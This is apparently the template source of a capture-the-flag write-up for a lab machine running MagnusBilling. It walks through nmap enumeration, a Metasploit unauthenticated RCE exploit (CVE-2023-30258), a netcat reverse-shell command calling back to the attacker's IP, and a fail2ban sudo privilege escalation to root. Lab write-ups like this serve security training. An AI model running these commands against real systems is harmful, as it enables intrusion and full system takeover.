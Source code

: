 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("I started by running a port scan.")}}

{{console("nmap -sV -sC -p- -T4 10.10.137.89", "Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-25 19:53 CEST
Nmap scan report for 10.10.137.89
Host is up (0.083s latency).
Not shown: 5097 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 14:36:ba:dd:13:e0:a3:9f:b9:b8:1b:71:48:34:48:ab (ECDSA)
|_  256 6e:8f:6d:09:8d:b5:bb:b0:47:68:67:60:00:28:dc:c2 (ED25519)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.137.89/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.62 (Debian)
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel")}}

{{text("We end up finding 4 open ports:")}}

{{list(['22 (SSH)', '80 (HTTP)', '3306 (MySQL)', '5038 (Astreisk)'])}}

{{header("Initial foothold", "initial-foothold")}}

{{text("We proceed to the website and get greeted with a login panel.")}}

{{image("../../static/writeups/billing/images/000001.jpg")}}

{{text("Furthermore, the title of the page is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>MagnusBilling</code>.")}}

{{text("Searching for that phrase, we find out that it is a VoIP billing system")}}

{{text("Furthermore, I found an available exploit that we can use.")}}

{{link("https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/", "https://www.rapid7.com/favicon.ico", "MagnusBilling application unauthenticated Remote Command Execution.")}}

{{text("We load up <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>metasploit</code> and search for the exploit.")}}

{{image("../../static/writeups/billing/images/000002.jpg")}}

{{text("We set the correct parameters and run the exploit.")}}

{{image("../../static/writeups/billing/images/000003.jpg")}}

{{text("Since Metasploit's shell is very bad, let's set up another reverse shell to our machine.")}}

{{text("Victim's machine.")}}

{{console("busybox nc {OUR_IP} 1234 -e bash")}}

{{text("Our machine.")}}

{{image("../../static/writeups/billing/images/000004.jpg")}}

{{header("Privilage escalation", "privilage-escalation")}}

{{text("We discover that we can run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/usr/bin/fail2ban-client</code> as root.")}}

{{console("sudo -l", "Matching Defaults entries for asterisk on ip-10-10-137-89:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-137-89:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client")}}

{{text("While searching what Fail2Ban is, I found an exploit we can use to privilage escalate.")}}

{{link("https://juggernaut-sec.com/fail2ban-lpe/", "null", "Fail2Ban - Linux Privilege Escalation")}}

{{text("What we want to modify is the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>iptables-multiport.conf</code> file so that it gives us a privilage escalation.")}}

{{text("Unfortunately, we don't have write permissions in this directory.")}}

{{text("But we can exploit this, by copying the contents of <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/fail2ban</code> into <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/tmp</code>, we can later specify the configuration directory and at the same time modify the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>iptables-multiport.conf</code> file.")}}

{{console("cp -r /etc/fail2ban/ /tmp/")}}

{{text("Next, we create a script that will copy <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>bash</code> into <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/tmp/</code> while adding a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>S bit</code> to it which will allow us to become root.")}}

{{text("We create a configuration file that will run our script.")}}

{{image("../../static/writeups/billing/images/000005.jpg")}}

{{text("Now we add it to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>jail.local</code>.")}}

{{image("../../static/writeups/billing/images/000006.jpg")}}

{{text("Lastly, we create an almost empty configuration file in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>filter.d</code> directory.")}}

{{image("../../static/writeups/billing/images/000007.jpg")}}

{{text("Now when we restart the service, we should be able to run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>bash</code> as root.")}}

{{image("../../static/writeups/billing/images/000008.jpg")}}

{{script()}}